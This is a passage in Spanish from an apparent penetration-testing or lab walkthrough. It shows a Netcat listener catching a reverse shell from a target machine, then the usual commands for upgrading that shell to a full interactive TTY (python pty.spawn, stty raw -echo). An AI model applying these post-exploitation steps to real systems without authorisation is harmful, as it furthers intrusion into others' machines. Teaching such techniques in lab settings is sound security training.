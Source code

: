 Si todo ha ido bien, deberías ver una conexión entrante en tu listener de Netcat y, de inmediato, tendrás una shell en la máquina objetivo.

```
listening on [any] 443 ...
connect to [10.10.14.92] from (UNKNOWN) [IP_OBJETIVO] [PUERTO_ORIGEN]
id
uid=1000(usuario_vulnerable) gid=1000(grupo_vulnerable) groups=1000(grupo_vulnerable)
```

**Tratamiento de TTY** (Opcional, pero recomendado para una shell funcional):
Una vez que obtengas la shell, es probable que sea una shell "no interactiva" (no se puede usar Ctrl+C, no hay autocompletado, etc.). Para mejorarla, puedes hacer un tratamiento de TTY. Un método común es:

**En la shell obtenida:**

```python
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

**En tu terminal local** (donde tienes el listener de Netcat):
Presiona `Ctrl+Z` para enviar netcat al fondo.

```bash
stty raw -echo; fg
```

* `stty raw -echo`: Configura tu terminal para que no haga eco de lo que escribes y envíe caracteres crudos.
* `fg`: Trae Netcat de nuevo al frente.

**De nuevo en la shell obtenida** (después de ejecutar `python3`):

```bash
export TERM=xterm
stty rows <YOUR_ROWS> columns <YOUR_COLS>
```

Reemplaza `<YOUR_ROWS>` y `<YOUR_COLS>` con el tamaño de tu terminal actual (puedes obtenerlo con el comando `stty -a` en tu terminal local).

---